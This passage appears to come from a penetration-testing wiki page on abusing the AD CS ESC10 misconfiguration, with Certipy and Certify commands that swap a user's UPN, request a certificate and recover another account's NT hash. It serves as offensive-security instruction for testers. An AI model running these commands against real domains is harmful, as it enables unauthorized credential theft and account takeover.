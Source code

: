 === Unix-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash with [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

